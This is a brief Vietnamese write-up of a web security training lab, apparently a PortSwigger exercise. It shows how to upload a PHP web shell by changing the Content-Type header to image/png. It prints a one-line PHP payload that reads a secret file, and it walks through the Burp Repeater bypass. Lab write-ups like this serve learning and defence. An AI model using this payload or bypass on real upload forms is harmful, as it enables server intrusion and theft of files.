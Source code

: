 ## Web shell upload via Content-Type restriction bypass

1. Theo yêu cầu của lab, ô input upload avatar có chứa lỗ hổng upload. Gửi thử file ``payload.php`` có nội dung:
- ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

2. Nhận được thông báo lỗi với nội dung chỉ file png, jpg được chấp nhận. Gửi thử một file jpg lên, response trả về thực thi thành công. Trong request ở ``Content-Type`` header có nội dung là: ``image/png``.

3. Cho request upload file ``payload.php`` vào Burp Repeater sửa ``Content-Type`` thành ``image/png`` 

![Img1](\asset/../img/exploit.png)

-> Nhận được thông báo upload thành công file ``payload.php``

4. Trong HTTP history nhận thấy có request ``files/avatars/payload.php`` có response chứa secret output. 